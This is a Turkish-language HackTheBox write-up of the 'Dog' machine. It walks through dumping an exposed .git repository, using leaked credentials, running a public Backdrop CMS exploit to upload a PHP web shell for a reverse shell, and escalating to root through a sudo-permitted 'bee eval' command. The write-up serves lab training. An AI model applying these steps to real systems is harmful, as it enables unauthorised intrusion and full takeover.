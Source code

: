 ```yaml
---
title: 'HackTheBox | Dog WriteUp'
author: appdone
categories: [HackTheBox Machines]
tags: [git, remote code execution, sudo, linux]
render_with_liquid: false
media_subpath: /images/hackthebox_dog/
image:
  path: logo.webp
---
```


## Özet

Dog, Backdrop CMS adında bir içerik yönetim sistemi kullanan kolay seviye bir linux makinedir. Nmap taraması sonucunda .git/ dizinini keşfedecek ve repoyu indireceğiz. Bu repo üzerinden içerik yönetim sistemindeki kullanıcılardan birinin parolasını ve kullanıcı adını öğreneceğiz. Daha sonra ise içerik yönetim sistemi üzerinden sisteme shell dosyamızı yükleyecek ve bir reverse shell bağlantısı alacağız. Sistemdeki kullanıcılardan birinin aynı parolayı kullanması nedeniyle o kullanıcıya geçiş yapacağız. Daha sonra ise root haklarıyla bir dosyayı çalıştırabileceğimizi fark edecek ve o dosya üzerinden yetki yükselteceğiz.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sVC -T4 10.10.11.58
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-title: Home | Dog
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80 numaralı portun incelenmesi

![](1.webp){: width="1200" height="600" }

Nmap taramasının sonucunda, 80 numaralı HTTP servisinin üzerinde bir `Git` reposu olduğunu ve kullanılan web uygulamasının `Backdrop CMS` olduğunu öğrendik.

#### Git reposunun incelenmesi

`Git` reposunu `git-dumper` aracının yardımıyla indirelim.

```console
$ python3 git-dumper.py http://10.10.11.58/.git/ dog
...
[-] Fetching http://10.10.11.58/.git/objects/ff/d522e1da8660cb25dce831f19efa284753b691 [200]
[-] Fetching http://10.10.11.58/.git/objects/ff/c8b7a2f5179db2788971de0e8a265032d6ddab [200]
[-] Fetching http://10.10.11.58/.git/objects/ff/f99b60388f8dabaa3ccb41a86ac100b29a75fa [200]
[-] Sanitizing .git/config
[-] Running git checkout .
Updated 2873 paths from the index
```

Dosyaları incelerken settings.php dosyasının içerisinde mysql bilgilerini buluyoruz. Ancak mysql servisine dışarıdan bağlanamayacağımız için elde ettiğimiz parolayı başka bir yerde kullanmamız gerekebilir.

```php
$database = 'mysql://root:[GİZLi]@127.0.0.1/backdrop';
$database_prefix = '';
```

Web uygulamasında `root` isminde bir kullanıcı bulunmadığından giriş yapamadım. Sitede bir kaç gönderi paylaşıldığını görmüştüm, dolayısıyla gönderileri paylaşan kullanıcıların adlarını da denedim ama nafile. Hakkında sayfasındaki `support@dog.htb` mailinden yola çıkarak `Git` reposu üzerinden kullanıcı adları bulmaya çalıştığımızda iki adet mail adresi görüyoruz. Bu maillerden biri aradığımız kullanıcının ta kendisidir.

```console
$grep -r "@dog.htb"
...
files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "[GİZLi]@dog.htb"
```

## Sömürü aşaması

![](4.webp){: width="1200" height="600" }

Elde ettiğimiz kullanıcı bilgileri ile sisteme giriş yapalım. Daha sonra `reverse shell` kodlarımızı yükleyebilmek için sayfaları kontrol edelim. Temaların bulunduğu kısımda sadece içerikleri düzenleyebileceğimiz bir sayfa var. Modüller sayfasına ise keyfimize göre modül yükleyemiyoruz.

### Zararlı modülün oluşturulması ve yüklenmesi

Bu hazır içerik yönetim sistemine nasıl php shell yükleyebileceğimi öğrenmek için internette arama yaptım ve [bu](https://www.exploit-db.com/raw/52021) sayfa ile karşılaştım. Programı çalıştırdıktan sonra bize bir `.zip` dosyası veriyor ve dosyayı verdiği dizin üzerinden siteye yüklememizi istiyor.

```console
$ python3 52021 http://10.10.11.58
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.10.11.58/modules/shell/shell.php
```

Oluşturduğu `.zip` dosyasını `.tar.gz` formatına çevirdikten sonra bahsettiği http://10.10.11.58/?p=admin/modules/install adresine gidiyor ve `manuel install` linkini seçiyoruz. Sonrada sıkıştırdığımız dosyayı yüklüyoruz.

![](2.webp){: width="900" height="500" }

Dosya yüklendikten sonra programda belirtilen adrese gidiyor ve buradaki web shell üzerinden ncat ile bir bağlantı alıyoruz.

![](3.webp){: width="900" height="500" }

## Yetki yükseltme

### johncusack

Sisteme girdikten sonra bayrağı alabilmek için /home dizine yöneldim. Burada iki kullanıcı dizini bulunuyor. `jobert` dizininin içerisinde herhangi bir bilgi yok. `johncusack` kullanıcısının dizinini ise görüntüleyemiyoruz. Ancak `johncusack` kullanıcısının parolası web siteye girmek için kullandığımız parola ile eşleşiyor.

```console
www-data@dog:/home$ su johncusack
Password: 
johncusack@dog:/home$
```

### root

Sudo yetkilerimizi kontrol ettiğimizde `bee` isimli bir dosyayı herhangi bir kullanıcı adına çalıştırabileceğimizi görüyoruz.

```console
johncusack@dog:~$ ls
user.txt
johncusack@dog:~$ sudo -l
[sudo] password for johncusack: 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

Dosyayı çalıştırdığımızda kullanılabilir tüm parametreler görüntüleniyor. Tabi ihtiyacımız olan şey, root kullanıcısı adına komut çalıştırmak olduğundan ilk olarak gözümüze `eval` parametresi takılıyor.

```console
johncusack@dog:~$ sudo /usr/local/bin/bee
...
eval
   ev, php-eval
   Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.
...
```

Bu dosya php ile yazılmış, dolayısıyla php dilinde komut çalıştırabileceğimiz bir kod girmemiz gerekiyor, ancak nedenini anlamadığım bir şekilde aşağıdaki hata ile karşılaşıyorum.

```console
johncusack@dog:~$ sudo /usr/local/bin/bee ev "system('/bin/bash');"

 ✘  The required bootstrap level for 'eval' is not ready.
```

Dosyayı biraz inceledikten sorna Backdrop CMS'i yönetmek için kullanılan bir dosya olduğunu öğrendim. Diğer komutlarıda kullandıktan sonra da `Backdrop` içerik yönetim sisteminin adresini bulamadığını fark ettim.

```console
johncusack@dog:~$ sudo /usr/local/bin/bee sqlc
PHP Fatal error:  Uncaught Error: Class 'Database' not found in /backdrop_tool/bee/commands/db.bee.inc:279
Stack trace:
#0 /backdrop_tool/bee/includes/command.inc(99): sql_bee_callback()
#1 /backdrop_tool/bee/bee.php(30): bee_process_command()
#2 {main}
  thrown in /backdrop_tool/bee/commands/db.bee.inc on line 279
```

Komutları tekrar gözden geçirdikten sonra `--root` parametresi ile CMS'in adresini belirtebileceğimizi görüyoruz. Daha sonra ise parametreyi komuta dahil ediyor ve çalıştırıyoruz.

```console
johncusack@dog:~$ sudo /usr/local/bin/bee ev "system('/bin/bash');" --root=/var/www/html/
root@dog:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
```
